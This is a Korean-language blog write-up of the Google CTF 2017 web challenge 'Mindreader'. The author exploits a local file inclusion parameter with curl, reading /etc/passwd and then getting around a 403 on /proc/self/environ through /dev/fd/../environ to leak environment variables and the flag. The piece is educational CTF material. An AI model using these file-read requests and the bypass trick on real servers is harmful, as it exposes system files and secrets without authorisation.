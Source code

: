 ```yaml
---
layout: post
title:  "[Google CTF 2017] Mindreader"
date:   2017-06-19
excerpt: "Mindreader"
tag:
- Google CTF
- Web
- Writeup
---
```


## Description

> Can you read my mind?
> Challenge running at [https://mindreader.web.ctfcompetition.com/][1]

## Exploit

문제 페이지는 다음과 같다.

```html
<html>
<head>
</head>
<body>
    <p>Hello, what do you want to read?</p>
    <form method="GET">
        <input type="text" name="f">
        <input type="submit" value="Read">
    </form>
</body>
</html>
```
`https://mindreader.web.ctfcompetition.com/?f=` 와 같은 방법으로 파일 내부를 볼 수 있는 것 같다.

단순 LFI 문제처럼 보인다.

시험삼아 `/etc/passwd`를 호출해보았다.

```bash
osehun-ui-MacBook-Pro:~ osehun$ curl "https://mindreader.web.ctfcompetition.com/?f=/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
```

정상적으로 `/etc/passwd`가 호출됨을 알 수 있다.

하지만 어느 폴더에 어떤 파일이 존재하는지 모르기에 `/proc/self/environ`을 열어보기로 했다.

```bash
osehun-ui-MacBook-Pro:~ osehun$ curl "https://mindreader.web.ctfcompetition.com/?f=/proc/self/environ"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don\'t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```

권한이 없음을 확인할 수 있으므로, `/proc/self/environ`을 다른 방법으로 열어보자.

```bash
parallels@ubuntu:~$ ls -al /dev/fd
lrwxrwxrwx 1 root root 13 May 27 01:57 /dev/fd -> /proc/self/fd
parallels@ubuntu:~$ ls -al /dev/fd/../environ
-r-------- 1 parallels parallels 0 Jun 19 15:24 /dev/fd/../environ
```

위와 같은 방법으로 `environ`을 열 수 있다.

`/dev/fd/../environ`을 서버에 요청해보자.

```bash
osehun-ui-MacBook-Pro:~ osehun$ curl "https://mindreader.web.ctfcompetition.com/?f=/dev/fd/../environ"

GAE_MEMORY_MB=614HOSTNAME=01a857a265fb
GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170618t144344-dv60
PORT=8080
HOME=/root
PYTHONUNBUFFERED=1
GAE_SERVICE=mindreader-sss6w3uqjfrcntmn
PATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGAE_DEPLOYMENT_ID=402060873983974243
LANG=C.UTF-8
DEBIAN_FRONTEND=noninteractive
GCLOUD_PROJECT=ctf-web-kuqo48d
GOOGLE_CLOUD_PROJECT=ctf-web-kuqo48d
CHALLENGE_NAME=mindreader
VIRTUAL_ENV=/envPWD=/home/vmagent/app
GAE_VERSION=20170618t144344
FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
```

Flag를 얻을 수 있다.

Flag is `CTF{ee02d9243ed6dfcf83b8d520af8502e1}`

[1]: https://mindreader.web.ctfcompetition.com/

